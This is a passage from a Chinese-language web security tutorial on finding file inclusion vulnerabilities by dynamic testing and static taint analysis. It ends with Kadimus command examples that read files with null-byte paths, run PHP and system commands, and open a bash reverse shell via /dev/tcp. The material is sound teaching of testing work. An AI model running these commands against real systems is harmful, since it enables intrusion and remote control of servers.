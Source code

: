 
<Image alt="图片7.png" src="https://s0.lgstatic.com/i/image2/M01/0C/3D/Cip5yGAX4LqAHITdAAFk7HY8mf8051.png"/> 
  
图 7 利用 data:// 伪协议执行系统命令

### 挖掘文件包含漏洞

#### 1.动态检测思路

挖掘文件包含漏洞的方式与测试漏洞的利用思路是一样的，分为本地和远程两种情况。

* **远程文件包含漏洞检测**

（1）向目标参数指定远程 URL 发起请求，确定远程服务器是否收到相应请求，此步骤可利用前面介绍过的 Burp Collaborator 进行测试。若发起请求说明有可能存在远程请求文件，同时也可能出现 SSRF 漏洞。

（2）如果第 1 步失败，尝试提交一个不存在的 IP 地址，并确认服务器尝试连接此 IP 时是否会出现超时。

（3）若第 1 步确认访问成功或者第 2 步确认请求超时，那么按前面介绍的利用方法，尝试利用远程文件包含漏洞以作最终确认。

* **本地文件包含漏洞检测**

（1）向目标参数提交一个已知的可执行资源的文件路径，比如 PHP 文件路径，看应用程序是否有任何变化。

（2）向目标参数提交一个已知的静态资源的文件路径，比如图片，看它的内容是否会再现在响应数据中。

（3）若第 1 步或第 2 步出现引用指定资源的情况，则按前面介绍的利用技巧尝试对疑似本地文件包含漏洞进行测试验证。

上述检测思路既适用于手工测试，也适用于日常的自动化扫描。

#### 2.静态检测思路

从源码入手，采用前面介绍过的污点分析思路进行代码审计。梳理下文件包含漏洞产生的相关 source 与 sink，然后去追踪数据流从 source 传播到 sink 过程中是否有进行过滤，若没有则可能存在文件包含漏洞。


<Image alt="图片9.png" src="https://s0.lgstatic.com/i/image/M00/94/51/CgqCHmAX4MqASFfNAAFRLvvVLVE597.png"/> 


#### 3.自动化检测与利用工具：Kadimus

提到自动化扫描，这里推荐一款自动化检测与利用文件包含漏洞的工具，它叫 [Kadimus](https://github.com/P0cL4bs/Kadimus/)，支持较多的利用方式，有部分是在前面未介绍到的，比如利用 /var/log/auth.log 实现远程代码执行的方法，利用它可以更加便捷地针对文件包含漏洞进行测试利用。

介绍几个常用命令：

```shell
# 检测参数是否存在文件包含漏洞
./kadimus -u localhost/?pg=contact -A my_user_agent
# 读取文件内容
./kadimus -u localhost/?pg=contact -S -f "index.php%00" -O local_output.php --parameter pg
# 执行PHP代码
./kadimus -u localhost/?pg=php://input%00 -C '<?php echo "pwned"; ?>' -T input
# 执行系统命令
./kadimus -t localhost/?pg=/var/log/auth.log -T auth -c 'ls -lah' --ssh-target localhost
# 反连shell
./kadimus -u localhost/?pg=contact.php -T data --parameter pg -lp 12345 -c '/bin/bash -c "bash -i >& /dev/tcp/172.17.0.1/1234 0>&1"' --retry-times 0
```

